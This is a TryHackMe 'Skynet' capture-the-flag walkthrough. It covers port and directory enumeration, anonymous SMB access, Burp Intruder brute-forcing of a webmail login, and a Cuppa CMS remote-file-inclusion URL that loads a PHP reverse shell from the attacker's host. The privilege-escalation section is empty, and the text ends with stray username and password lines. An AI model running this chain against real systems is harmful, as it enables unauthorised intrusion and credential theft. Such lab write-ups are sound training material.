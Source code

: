 # TryHackMe Skynet Room WalkTrought




## Starting with enumeration
As everyday, we start enumerating with nmap
```bash
nmap -sV -vv -p- 10.10.209.177
```
Here is the results
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        syn-ack Dovecot pop3d
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack Dovecot imapd
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There are some open ports, this will be fun

### Enumeration with gobuster : http

So, we see a http server running on port 80 so let's check this out  
["index.html"](pictures/skynet.com "skynet")  
Nothing seems interesting here  
Let's enumerate  
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.209.177  -x php,html,txt 
```
Here is the results
```
/index.html           (Status: 200) [Size: 523]  
/.html                (Status: 403) [Size: 278]  
/.php                 (Status: 403) [Size: 278]  
/admin                (Status: 301) [Size: 314]  
/css                  (Status: 301) [Size: 312]   
/js                   (Status: 301) [Size: 311]   
/config               (Status: 301) [Size: 315]   
/ai                   (Status: 301) [Size: 311]   
/squirrelmail         (Status: 301) [Size: 321]   
/.php                 (Status: 403) [Size: 278]  
/.html                (Status: 403) [Size: 278]  
```
Squirrelmail ? what is that ? Let's check !  
["SquirrelMail"](pictures/squirrelmail.com)  
It's seems that we'll need some credentials...  

### Enumeration with Enum4Linux : smb
```bash
enum4linux 10.10.209.177
```
Here is the interesting results  
We find a new user ! Seems to be a great starting point.
```
user:[milesdyson] rid:[0x3e8]
```
We find four shares too
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```
One of them is accessible as anonymous !
```
//10.10.209.177/print$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.209.177/anonymous	Mapping: OK Listing: OK Writing: N/A
//10.10.209.177/milesdyson	Mapping: DENIED Listing: N/A Writing: N/A
```

Let's log in it
```bash
smbclient //10.10.209.177/anonymous	
```
["smbclient"](/pictures/smbclient.png)
There is some stuff. Let's get it to our own machine.
```bash
mget *
cd notes
mget *
```
anonymous share fully enumerated, we can exit.
So, what did we find ?  
["Attention.png"](pictures/attention.png)  
And ?  
["log1.png"](pictures/log1.png)  
This looks like a password list, right ?  

## Bruteforcing with burpsuite

It's seems that we have a username and a list of password...  
We can try bruteforcing squirrelmail...

So, let's catch a request  
(You can check burpsuite path on TryHackMe to understand what i've done here)  
["proxy.png"](pictures/proxy.png)

We can now 
- send it to the intruder (CTRL+I)  
- clear variables
- wrap password with variables
- and change the username value to milesdyson
This should looks like that :  
["intruder.png"](pictures/intruder.png)

Go to the payload section and load log1.txt
["payload.png"](pictures/payload.png)


***Press start attack***

Boom ! password found ! 

We have now credentials of milesdyson mail.   

## Enumerating squirrelwebmail

We can now login to his webmail  
This looks like that :  
["webmail.png"](pictures/webmail.png)

And in the first mail, we clearly see the SMB password

["mail.png"](pictures/mail.png)

## Back to SMB

We can try to log in the milesdyson share with our new credentials

```bash
smbclient -u milesdyson //10.10.209.177/milesdyson
```
It works !  
```bash
ls
cd notes
ls
```
Wow there are a lot of file
["smb_milesdyson.png"](pictures/smb_milesdyson.png)

We can find "important.txt"
```bash
mget important.txt
```
It seems that we can exit   
["important.png"](pictures/important.png)  

Ok, so there is the hidden directory

## Http hidden directory

We can go to http://10.10.209.177/45kra24zxs28v3yd  
["personal_page.png"](pictures.personal_page.png)
Nothings seems to be interesting here.

## Enumerate hidden directory

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.209.177  -x php,html,txt
```
Here is the results
```

```
MMmmmm.... Interesting, let's check what is this administrator directory   
I first check at the source code and saw that they was an hidden redirect to a 'forgot passsword ?' page but this didn't seems to work  

## Exploit Cuppa CMS
Then, I remembered that this CMS has some vulns...
And, when i searched for, i've seen that : 
["cuppa_exploit.png"](pictures/cuppa_exploit.png)  


So I could use it to spawn a reverse shell : 
- I curl the pentest monkey php reverse shell and edit it with my tun0 IP and the port 1234
- I started an python http webserverver like that : 
```bash
python -m http-server 8000
```
- I used the RFI vulnerability to spawn the reverse shell  
http://10.10.209.177/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.14.34:8000/reverse_shell.php
OK! Reverse shell spawned !

## User Flag

As always, I spawned  an interactive shell with
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
```

["UserFlag.png"](pictures/userflag.png)  
First flag here !  

## Privileges escalation













mylesdyson:cyborg007haloterminator



SMB PASSWORD
mylesdyson:)s{A&2Z=F^n_E.B`
